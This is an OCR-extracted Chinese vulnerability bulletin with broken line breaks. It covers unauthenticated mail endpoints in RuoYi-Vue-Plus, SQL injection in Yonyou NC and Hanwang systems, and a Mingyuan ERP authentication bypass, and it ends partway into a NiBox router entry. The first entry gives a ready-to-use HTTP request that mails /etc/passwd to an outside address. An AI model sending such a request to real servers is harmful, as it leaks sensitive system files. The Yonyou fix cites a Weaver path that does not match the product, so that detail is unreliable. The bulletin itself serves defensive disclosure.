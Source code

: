 /demo/mail/sendMessageWithAttachment和 /sendMessageWithAttachments 接口未进行身份验证，攻击者可指定任意文件路径作为附件发送邮件，导致服务器敏感信息泄露  
。  

```
GET /demo/mail/sendMessageWithAttachment?to=test111@163.com&subject=Test-Mail&text=This%20is%20a%20test%20message&filePath=/etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Firefox/123.0
```

  
修复建  
议：  
  
限制访问 /demo/mail/sendMessageWithAttachment和 /demo/mail/sendMessageWithAttachments 接口  或 升级至 RuoYi-Vue-Plus ≥ 5.4.1 版本  
  
  
漏  
洞名称  
：用友NC changeEvent SQL注入漏洞  
  
漏洞描述：  
  
changeEvent接口存在SQL注入漏洞，未授权攻击者可获取数据库权限并导致服务器失陷。  
  
修复建议：  
  
限制访问  
/weaver/weaver.email.FileDownloadLocation/login/LoginSSOxjsp/x.FileDownloadLocation路径  
  
  
漏洞名称：  
汉王e脸通综合管理平台SQL注入漏洞  
  
漏洞描述：  
  
queryManyPeopleGroupList.do接口存在SQL注入漏洞，攻击者可获取数据库敏感信息。  
  
修复建议：  
  
限制访问  
/manage/authMultiplePeople/queryManyPeopleGroupList.do  
  
  
漏洞名称：  
明源地产ERP身份认证绕过漏洞  
  
漏洞描述：  
  
明源地产ERP存在未公开身份认证绕过漏洞，攻击者可绕过验证直接访问管理后台窃取企业信息。检  
  
修复建议：  
  
监测  
/PubPlatform/nav/login/sso/login.aspx及user_info的请求  
  
  
漏洞名称：  
NiBox路由器SQL注入漏洞  
  
漏洞描述：  
  